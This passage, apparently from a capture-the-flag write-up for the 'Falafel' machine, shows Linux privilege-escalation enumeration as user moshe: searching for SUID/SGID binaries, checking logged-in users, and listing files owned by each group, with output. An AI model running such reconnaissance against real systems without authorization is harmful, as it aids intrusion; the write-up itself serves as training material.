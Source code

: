 
  * No sudo
  * No interesting setuid binaries 
    
        moshe@falafel:~$ # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    moshe@falafel:~$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
    -rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
    -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 40152 Jun 15  2017 /bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
    

## Success - Screenshot of yossi

We notice that yossi is physically logged into the host:

    
    
    moshe@falafel:~$ w
     16:18:31 up  9:16,  2 users,  load average: 0.95, 0.73, 0.56
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    yossi    tty1                      07:02    9:16m  0.16s  0.10s -bash
    moshe    pts/0    10.10.14.159     16:17    0.00s  0.11s  0.02s w
    

If we look at the groups that we’re in, there’s some unusual ones:

    
    
    moshe@falafel:/dev/shm/.z$ groups
    moshe adm mail news voice floppy audio video games
    

Grab files in each group, excluding directories:

    
    
    moshe@falafel:/dev/shm/.z$ for x in $(groups); do echo ========${x}========; find / -group ${x} ! -type d -exec ls -la {} \; 2>/dev/null > ${x}; done
    ========moshe========
    ========adm========
    ========mail========
    ========news========
    ========voice========
    ========floppy========
    ========audio========
    ========video========
    ========games========
    moshe@falafel:/dev/shm/.z$ ls -l
    total 156
    -rw-rw-r-- 1 moshe moshe   2035 May 18 00:14 adm
    -rw-rw-r-- 1 moshe moshe    119 May 18 00:14 audio
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 floppy
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 games
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 mail
    -rw-rw-r-- 1 moshe moshe 143570 May 18 00:14 moshe
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 news
    -rw-rw-r-- 1 moshe moshe    244 May 18 00:14 video